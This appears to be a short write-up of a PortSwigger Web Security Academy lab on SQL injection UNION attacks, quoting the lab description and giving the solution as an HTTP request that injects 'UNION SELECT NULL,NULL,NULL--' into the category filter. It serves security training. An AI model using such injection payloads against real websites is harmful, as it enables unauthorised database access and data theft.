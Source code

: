 # Lab 03: SQL injection UNION attack, determining the number of columns returned by the query

## Description

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing null values.

---

## Solution

```http
GET /filter?category=Pets'+UNION+SELECT+NULL,NULL,NULL-- HTTP/1.1
Host: ac8f1f651f3d085c801e3719006300dd.web-security-academy.net
Cookie: session=wWlafO39rG5te1kEmR750VBVVOttKoUU
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
```